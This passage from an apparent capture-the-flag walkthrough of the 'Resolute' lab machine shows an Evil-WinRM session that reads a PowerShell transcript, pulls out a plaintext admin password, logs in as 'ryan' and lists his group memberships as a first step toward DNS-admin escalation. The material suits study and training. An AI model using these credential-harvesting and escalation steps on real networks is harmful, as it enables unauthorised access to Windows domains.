 Within this file, there is a PowerShell transcript, which contains credentials.&#x20;

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

<TRUNACTED>
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
{% endcode %}

With these credentials, we can login as `ryan`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3321).png" alt=""><figcaption></figcaption></figure>

### DNS Admin

As `ryan`, we are part of the Contractors and FnsAdmins group:

```
*Evil-WinRM* PS C:\Users\ryan\desktop> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
```